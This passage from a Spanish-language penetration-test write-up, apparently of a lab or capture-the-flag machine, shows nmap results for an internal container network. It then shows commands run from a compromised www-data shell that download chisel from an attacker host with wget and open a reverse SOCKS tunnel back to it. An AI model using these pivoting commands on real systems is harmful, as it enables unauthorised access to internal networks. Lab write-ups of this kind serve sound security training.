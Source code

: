 ```null
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
443/tcp open  https

Nmap scan report for mysql (172.17.0.3)
Host is up (0.00067s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
3306/tcp  open  mysql
33060/tcp open  unknown

Nmap scan report for 172.17.0.4
Host is up (0.00016s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap scan report for 172.17.0.5
Host is up (0.00043s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8118/tcp open  unknown

Nmap scan report for 3c371615b7aa (172.17.0.6)
Host is up (0.000076s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 6 IP addresses (6 hosts up) scanned in 22.34 seconds
```

Subo el ```chisel``` para montarme un tunel por SOCKS5 y tener acceso a todos los segmentos

En mi equipo creo el servidor

```null
chisel server -p 1234 --reverse
2023/02/12 12:31:55 server: Reverse tunnelling enabled
2023/02/12 12:31:55 server: Fingerprint Zdt8Jmk9PKjlUxg++CD3GFZPqvyPSOCZtxBtA72wTwY=
2023/02/12 12:31:55 server: Listening on http://0.0.0.0:1234
```

En el contenedor me conecto

```null
www-data@3c371615b7aa:/tmp$ wget http://10.10.16.7/chisel
--2023-02-12 12:33:14--  http://10.10.16.7/chisel
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3107968 (3.0M) [application/octet-stream]
Saving to: 'chisel'

chisel                                               100%[===================================================================================================================>]   2.96M   696KB/s    in 4.4s    

2023-02-12 12:33:19 (696 KB/s) - 'chisel' saved [3107968/3107968]

www-data@3c371615b7aa:/tmp$ chmod +x chisel
www-data@3c371615b7aa:/tmp$ ./chisel client 10.10.16.7:1234 R:socks &>/dev/null & disown
[1] 3159
```
